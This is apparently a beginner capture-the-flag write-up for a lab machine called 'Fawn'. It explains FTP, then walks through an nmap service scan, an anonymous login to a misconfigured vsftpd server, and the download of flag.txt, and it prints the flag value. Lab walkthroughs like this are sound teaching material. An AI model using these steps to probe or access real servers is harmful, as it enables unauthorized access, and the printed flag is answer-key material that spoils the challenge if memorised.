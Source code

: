 
**Box Name**: Fawn
**Difficulty**: Easy  
**Objective**: Exploiting **Misconfigured FTP Access Exploitation**.
**Tools Used**: Nmap


### Introduction

**What it is?** FTP or FIle Transfer Protocol is a standard network protocol used to transfer files between a client and a server over a TCP based network like the internet.
**Port?** 21
**What you can do with it?** It is primarily used for uploading and downloading files, managing website files or transferring data between systems.

Basically, the client initiates a conntection to the FTP server. Once connected the server grants a CLI for interaction for file transfer.

**Port Usage**:
21 ~ for control channel.
20 ~ for data channels in active mode.
Random Port ~ for data transfer in passive mode.

**Active Mode?** The server connects back to the client on a specific port for data transfer.
**Passive Mode?** The client initiates both control and data connections to the server which is useful for bypassing firewalls.

**Authentications**:
**Anonymous?** Allows users to access the server without credentials often with limited permissions.
**Authenticated?** Requires a username and password for access.

**Command**:
```
ftp <ip address>
```


### Enumeration

Assuming your connections are established and the ping was successful.
We use Nmap which is a Network Mapper whose goal is to send requests to ports of your choice, or all 65535 or even by default the top 1000 ports and returns which are open, filtered or closed.

This time we will use Nmap with the -sV flag to enumerate the services and their versions being used. Do this as:

```
$ sudo nmap -sV 10.129.40.148
[sudo] password for ghost: 

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-13 15:33 IST
Nmap scan report for 10.129.40.148
Host is up (1.9s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.20 seconds
```

Clearly, it can be observed that at port number 21, ftp with vsftpd 3.0.3 is open.
Also, the server uses a Unix OS.


### Trying FTP Connection

After knowing FTP is open at 21, let's fire FTP up at ip address `10.129.40.148` as:
```
$ ftp 10.129.40.148
Connected to 10.129.40.148.
220 (vsFTPd 3.0.3)
Name (10.129.40.148:alice):
```

Let's try the anonymous login method.
Here's what we got:
```
Name (10.129.40.148:alice): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp>
```

Voila! We have remote access.


### FInding the Flag

(It's ironic for me to say finding the flag, but technically I am)
Let's go ahead and list all available commands using `help` command.
```
ftp> help
Commands may be abbreviated.  Commands are:

!		epsv6		mget		preserve	sendport
$		exit		mkdir		progress	set
account		features	mls		prompt		site
append		fget		mlsd		proxy		size
ascii		form		mlst		put		sndbuf
bell		ftp		mode		pwd		status
binary		gate		modtime		quit		struct
bye		get		more		quote		sunique
case		glob		mput		rate		system
cd		hash		mreget		rcvbuf		tenex
cdup		help		msend		recv		throttle
chmod		idle		newer		reget		trace
close		image		nlist		remopts		type
cr		lcd		nmap		rename		umask
debug		less		ntrans		reset		unset
delete		lpage		open		restart		usage
dir		lpwd		page		rhelp		user
disconnect	ls		passive		rmdir		verbose
edit		macdef		pdir		rstatus		xferbuf
epsv		mdelete		pls		runique		?
epsv4		mdir		pmlsd		send

```

Let's `ls` all available files:
```
ftp> ls
229 Entering Extended Passive Mode (|||40385|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.

```

Now, we will download the flag using `get` command:
```
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||11016|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |*************************************************|    32        0.01 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:03 (0.00 KiB/s)

ftp> exit
221 Goodbye.

```

Now, `cat` this `flag.txt` as:
```
$ cat flag.txt 
035db21c881520061c53e0536e44f815
```

Flag: `035db21c881520061c53e0536e44f815`

